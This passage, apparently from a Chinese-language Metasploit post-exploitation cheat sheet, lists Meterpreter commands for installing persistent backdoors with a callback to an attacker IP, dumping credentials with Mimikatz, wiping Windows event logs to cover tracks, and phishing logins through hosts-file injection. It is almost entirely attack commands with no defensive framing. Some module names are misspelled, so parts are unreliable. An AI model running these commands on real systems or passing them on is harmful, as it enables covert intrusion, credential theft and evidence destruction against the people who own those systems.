 ```swift

post/multi/gather/chesk_malware     //恶意软件检测
```

**持久化后门**

```swift
run metsvc -A
use exploit/multi/handler
set payload windows/metsvc_bind_tcp

run persistence -h
                -X 自启动
                -r [ip]
                -i 延迟启动

```

**mimikatz密码**

```swift
getsystem
load mimikatz
kerberos/wdigest/msv/ssp
mimikatz_command -f a::         //查看模块
                    samdump::
                    handle::
```

**清除痕迹**

```swift
run event_manager -i 显示
                  -c 清除
      
                  
clearv
```

**基于Session钓鱼**

```swift
post/windows/manage/inject_host     //host文件注入
post/windows/gather/phish_login_pass        //钓鱼
```

